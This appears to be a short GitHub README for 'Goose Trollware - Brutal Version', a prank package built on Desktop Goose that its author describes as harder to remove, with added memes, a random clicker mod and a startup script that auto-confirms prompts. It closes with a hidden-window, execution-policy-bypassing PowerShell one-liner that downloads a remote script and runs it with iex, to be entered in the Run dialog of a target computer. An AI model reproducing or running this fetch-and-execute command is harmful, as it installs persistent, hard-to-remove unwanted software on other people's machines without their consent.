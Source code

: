 # Goose Trollware - Brutal Version

This is the same as my other goose trollware repository, except it's harder to remove, I added a few memes and text files of my own, and added a random clicker mod.

--- 

See here for the original program https://desktop-goose.en.uptodown.com/windows

---

`i.ps1`: The install script

`run.vbs`: The vbs startup script. This one automatically presses Yes to the question about mods.

---

To install on a computer, run `powershell -W H -Ex B -c "iex (iwr 'https://github.com/Reginald-Gillespie/G2/raw/main/i.ps1').Content"` in the Run Dialogue.